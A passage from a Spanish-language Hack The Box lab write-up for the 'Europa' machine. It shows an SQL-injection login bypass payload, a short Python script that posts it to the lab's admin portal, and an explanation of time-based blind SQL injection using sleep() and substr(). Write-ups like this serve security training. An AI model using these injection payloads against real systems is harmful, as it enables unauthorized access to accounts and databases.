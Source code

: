 ![](/assets/images/htb-europa/europa2.PNG)

Si intentamos una inyeccion sqli ```admin@europacorp.htb' or 1=1-- -``` nos dice que metamos una direccion de correo. Eso lo pone en el navegador pero si  
intentamos de otra manera puede que nos lo saltemos.  

```python3
#!/bin/python3

import requests
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}

data = { "email":"admin@europacorp.htb' or 1=1-- -", "password":"test"}
req = requests.post(login_url, data=data, headers = headers, verify=False)
print(req.text)
```
----------------------------

# Part 3: Blind sqli

Probamos otro tipo de inyeccion (tiempo) -> ```' and sleep(5)-- -```  
Ejecutamos el script y tarda cinco segundos en responder, eso esque hay una vulnerabilidad **time based blind sqli**  
Las blind sqli se basan en la función substr:   
- `substr(‘palabra’, 1,1) -> “p”; substr(‘palabra’, 2,2)` → “al”    
- `and if (substr(‘palabra’, 1,1)='p', sleep(5),1)-- -` si la primera letra de 'palabra' es 'p', espera 5 segundos.

-----------------------------

## Averiguar el nombre de la base de datos actual:    
